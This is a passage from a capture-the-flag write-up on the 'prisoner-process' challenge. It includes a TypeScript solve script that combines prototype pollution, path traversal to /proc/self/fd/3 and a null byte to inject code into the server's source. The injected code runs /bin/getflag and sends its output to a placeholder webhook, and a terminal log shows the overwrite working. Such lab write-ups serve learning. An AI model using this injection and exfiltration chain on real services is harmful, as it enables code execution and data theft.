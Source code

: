 Unfortunately, it turns out that for some reason Bun can't write to Bash's fds, despite the fact that both processes are running under the same user. StackOverflow lied to me!

But if I can't trust StackOverflow, surely I can trust the one and only Aplet123! Aplet tells me though that you can still write to a "read-only" fd, since it's just a symlink. So what if we try writing to `/proc/self/fd/3` (`index.ts`) anyways?

```ts
// solve.ts

const remote = "http://localhost:1337"

const example = (await (await fetch(`${remote}/examples`)).json()).examples[0]

const payload0 = structuredClone(example)
payload0.data = {
    "sus": `await fetch("{arc_secret_flag_webhook}"+(await (await import("bun"))["$"]\`/bin/getflag\`.text()))`,
    "signed.__proto__": { "outputPrefix": "../../proc/self/fd/3\0" },
    ...payload0.data,
}
await fetch(`${remote}/convert-to-yaml`, {
    method: "POST",
    headers: { "Content-Type": "application/json" },
    body: JSON.stringify(payload0)
})
```

```
arc@blroth:~/ctfs/prisoner-process$ deno run solve.ts 
arc@blroth:~/ctfs/prisoner-process$ docker exec -it prisoner_processor /bin/bash
bun@1758f8776225:/app$ cat src/index.ts 
sus: await fetch("{arc_secret_flag_webhook}"+(await (await
  import("bun"))["$"]`/bin/getflag`.text()))
signed.__proto__:
  outputPrefix: "../../proc/self/fd/3\0"
signed.name: jeff
signed.animalType: emu
signed.age: 12
signed.crime: assault
signed.description: clotheslined someone with their neck
signed.start: 2024-03-02T10:45:01Z
signed.release: 2054-03-02T10:45:01Z
```

OMG! IT WORKS!

So now, all we have to do is to crash Bun...

## Bun is a terrible runtime, part 2

Take one look at Bun's [list of issues](https://github.com/oven-sh/bun/issues) and you'll see segfaults galore. I'm personally amazed - I thought Zig was a memory-safe language!
